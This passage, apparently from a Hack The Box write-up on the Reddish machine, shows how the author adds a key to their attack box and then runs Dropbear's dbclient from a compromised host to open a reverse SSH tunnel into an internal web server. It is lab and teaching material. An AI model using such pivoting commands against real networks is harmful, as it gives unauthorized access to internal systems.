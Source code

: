 
Now I’ll put this public key into the authorized key file for dummy on my kali
box. While this key is in that file, anyone who has the private key (`.k`) can
ssh into my box, so I’ll want to leave this in place only long enough to get
the tunnels set up.

#### Create Tunnel

Now I’ll use DropBear’s `dbclient` to ssh back, creating a tunnel to access
the web page on www:

    
    
    # ./dbclient -i .k -f -N -R 8888:172.19.0.4:80 dummy@10.10.14.14
    

The options I used are:

  * `-i .k` \- Use the keyfile I generated earlier
  * `-f` \- run ssh in the background
  * `-N` \- Done request a shell or run and commands
  * `-R 8888:172.19.0.4:80` \- listen on port 8888 on my kali host, and forward and traffic to 172.19.0.4 port 80. It’s important to note that my dummy user doesn’t have the privilege necessary to listen on a low port, like 80.

Now I can access the website on www:

![1547726954948](https://0xdfimages.gitlab.io/img/1547726954948.png)

[](/2019/01/26/htb-reddish.html)


